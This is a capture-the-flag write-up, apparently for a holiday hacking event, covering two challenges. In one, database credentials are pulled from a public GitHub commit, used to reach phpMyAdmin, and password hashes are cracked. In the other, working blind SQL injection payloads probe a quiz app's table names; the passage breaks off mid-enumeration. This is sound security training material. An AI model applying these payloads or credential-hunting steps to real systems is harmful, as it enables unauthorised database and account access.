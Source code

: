 ## Day 8


this day's challenge is a forum located at https://hackyholidays.h1ctf.com/forum
after lot of fuzzing and searching, couldn't come up with anything except `/forum/phpmyadmin` endpoint which looks like phpmyadmin interface, but we need db creds to access it,
after quite some time went to adam's github `https://github.com/adamtlangley`, we can see in his activity he created this repo `https://github.com/Grinch-Networks/forum` on december 7th, now we got forum source code !
i spent quite sometime on the source code, and i wasn't able to find anything, that's when i went back to see commits history in github https://github.com/Grinch-Networks/forum/commits/main

commit `07799dce61d7c3add39d435bdac534097de404dc` has initial code release with db creds for file `models/Db.php`
https://github.com/Grinch-Networks/forum/commit/07799dce61d7c3add39d435bdac534097de404dc#diff-998930400b08c30f6949f365207fd1d0c693d22ae5de6b9de752ef5c57ce9754
```
 self::$read = new DbConnect( false, 'forum', 'forum','6HgeAZ0qC9T6CQIqJpD' );
```

we use it to login to phpmyadmin
then we have users table with users password hashes https://hackyholidays.h1ctf.com/forum/phpmyadmin?db=forum&table=user
```
35D652126CA1706B59DB02C93E0C9FBF
388E015BC43980947FCE0E5DB16481D1
```
checked both users hashes on `crackstation.net`
grinch user password hash reversed to BahHumbug, let's login to forum now!

we use it to login then and we go to the admin section we find a post with flag inside flag{677db3a0-f9e9-4e7e-9ad7-a9f23e47db8b}


----------------------------------------------------------------

## Day 9


this day's challenge located at https://hackyholidays.h1ctf.com/evil-quiz
the app workflow is very simple, 
1- input your name
2- fill the quiz
3- obtain result + how many other users use the same name as name we put in step1

after playing a bit around that workflow, found that there's a blind second order SQLi in name input from step1 and the result is in step3

- name `aaa'or'1'='1` we get `There is 494202 other player(s) with the same name as you!` 
- name `aaa'or'1'='2` we get `There is 8 other player(s) with the same name as you!` 

fair enough, since its blind sqli i tried to guess some tables,columns to reduce the number of requests and luckily it was easy to guess

since we have a login page that says it's only for admin, my guess was that table could be admin
- name `admin' and ((select 1 from admin limit 0,1)=1)-- -` returns `There is 67 other player(s) with the same name as you!`
- name `admin' and ((select 1 from blablacolumn limit 0,1)=1)-- -` returns `There is 0 other player(s) with the same name as you!`
looks like admin is a correct table name
